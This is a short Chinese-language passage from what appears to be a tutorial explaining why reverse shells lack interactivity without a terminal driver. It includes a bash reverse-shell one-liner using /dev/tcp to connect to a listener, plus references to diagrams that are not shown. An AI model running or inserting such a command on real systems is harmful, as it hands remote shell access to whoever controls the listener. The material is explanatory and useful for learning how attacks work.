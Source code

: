`驱动`会对这些字符进行处理，然后部分控制字符被拦截，然后向前台进程组发送信号。比如反弹shell中的`上`，会变成`^[[A`，就是因为没有驱动去处理，直接输出了。

## 交互式反弹shell
就以`I/O重定向`类型的反弹shell来说：
```
bash -i >/dev/tcp/127.0.0.1/9999 <&1 2<&1
```
获取一个非交互的shell，此时的模型是这样的，单纯的直连，`bash`进程从`nc`接收输入，执行后把输出传给`nc`。
![73874827.png](交互式反弹shell_files/73874827.png)

一个合理的`交互式反弹shell`模型情况应该是这样的：
![74468493.png](交互式反弹shell_files/74468493.png)
